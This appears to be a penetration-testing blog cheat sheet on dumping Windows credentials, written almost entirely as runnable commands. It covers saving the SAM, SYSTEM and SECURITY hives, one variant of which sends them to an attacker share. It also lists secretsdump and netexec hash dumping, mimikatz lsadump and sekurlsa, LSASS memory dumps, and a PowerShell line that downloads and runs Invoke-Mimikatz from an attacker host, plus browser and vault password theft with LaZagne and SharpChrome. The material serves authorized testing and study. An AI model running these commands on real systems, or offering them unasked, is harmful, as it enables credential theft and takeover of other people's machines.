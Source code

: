 ```yaml
---
title: "CheatSheet - Windows Passwords"
author: Nasrallah
description: ""
date: 2025-06-29 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, windows]
img_path: /assets/img/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **SAM**

SAM (Security Account Manager) is a database file in Windows that stores local user account credentials, including password hashes, and is used during the local authentication process.

```shell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

```bash
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SAM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SYSTEM' -o '\\attackerIP\share'
reg.py domain.com/user:'Password123'@10.10.10.10 save -keyName 'HKLM\SECURITY' -o '\\attackerIP\share'
```

We use `secretsdump` from `Impacket` to extract the password hashes locally.

```bash
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Dump hashes remotely with [secretsdump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)

```bash
secretsdump.py administrator:Password123@10.10.10.10
```

Dump with [netexec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-sam)

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --sam
```

With mimikatz.

```bash
mimikatz.exe "privilege::debug" "lsadump::sam" exit
```

## **LSA**

**LSA** (Local Security Authority) is a Windows component that handles authentication, security policies, and stores secrets like service account passwords and cached credentials.

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 --lsa
```

```bash
mimikatz.exe "privilege::debug" "lsadump::secrets" exit
```

## **LSASS**

### Automated

**LSASS** (Local Security Authority Subsystem Service) is a Windows process responsible for enforcing security policies, handling logins, password changes, and generating access tokens. It stores live credentials in memory (e.g., passwords, hashes, tickets) for logged-in users

```bash
nxc smb 10.10.10.10 -u administrator -p Password123 -M lsassy
```

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Manually

#### Creating dump file

Using GUI

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process > `Select Create dump file`

Using CLI

Identify `lsass.exe` PID

```bash
tasklist /fi "imagename eq lsass.exe"
Get-Process lsass
```

Create dump file

```shell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 668 C:\lsasspower.dmp full
procdump -accepteula -ma lsass lsass.dmp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://attacker/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

Using `mimikatz`

```bash
sekurlsa::minidump lsass.dmp
```

#### Extracting secretes

Extract credentials with [pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump ./lsass.dmp 
```

## **Stored credentials**

```shell
cmdkey /list
```

```bash
Lazagne.exe
mimikatz.exe "privilege::debug" "vault::cred" exit
mimikatz.exe "privilege::debug" "sekurlsa::credman" exit
```

## **Browser Passwords**

```bash
Lazagne.exe
```

```shell
.\SharpChrome.exe logins /unprotect
```

### Misc

Search for passwords in smb shares.

```shell
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

## **References**

<https://www.thehacker.recipes>

<https://www.netexec.wiki/>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
